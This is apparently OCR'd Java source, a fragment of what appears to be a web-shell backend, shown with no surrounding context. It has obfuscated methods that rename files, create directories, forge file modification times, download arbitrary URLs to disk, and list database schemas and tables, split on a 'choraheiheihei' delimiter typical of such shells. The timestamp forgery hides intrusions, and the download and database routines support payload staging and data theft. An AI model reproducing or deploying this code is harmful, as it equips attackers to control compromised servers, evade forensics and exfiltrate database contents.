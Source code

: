        void II(String s, String d) throws Exception {  
           File sf = new File(s), df = new File(d);  
          sf.renameTo(df);  
       }  
    void JJ(String s) throws Exception {  
           File f = new File(s);  
          f.mkdir();  
       }  

     void KK(String s, String t) throws Exception {  
          File f = new File(s);  
        SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");  
          java.util.Date dt = fm.parse(t);  
       f.setLastModified(dt.getTime());  
       }  

      void LL(String s, String d) throws Exception {  
          URL u = new URL(s);  
          int n = 0;  
          FileOutputStream os = new FileOutputStream(d);  
           HttpURLConnection h = (HttpURLConnection) u.openConnection();  
           InputStream is = h.getInputStream();  
          byte[] b = new byte[512];  
          while ((n = is.read(b)) != -1) {  
             os.write(b, 0, n);  
          }  
          os.close();  
           is.close();  
        h.disconnect();  
      }  

      void MM(InputStream is, StringBuffer sb) throws Exception {  
           String l;  
           BufferedReader br = new BufferedReader(new InputStreamReader(is));  
          while ((l = br.readLine()) != null) {  
              sb.append(l + "\r\n");  
          }  
      }  

      void NN(String s, StringBuffer sb) throws Exception {  
          Connection c = GC(s);  
          ResultSet r = s.indexOf("jdbc:oracle")!=-1?c.getMetaData().getSchemas():c.getMetaData().getCatalogs();  
          while (r.next()) {  
               sb.append(r.getString(1) + "\t|\t\r\n");  
           }  
          r.close();  
           c.close();  
        }  

      void OO(String s, StringBuffer sb) throws Exception {  
       Connection c = GC(s);  
          String[] x = s.trim().split("choraheiheihei");  
         ResultSet r = c.getMetaData().getTables(null,s.indexOf("jdbc:oracle")!=-1?x.length>5?x[5]:x[4]:null, "%", new String[]{"TABLE"});  
          while (r.next()) {  
             sb.append(r.getString("TABLE_NAME") + "\t|\t\r\n");  
         }  
         r.close();  
       c.close();  
     }  

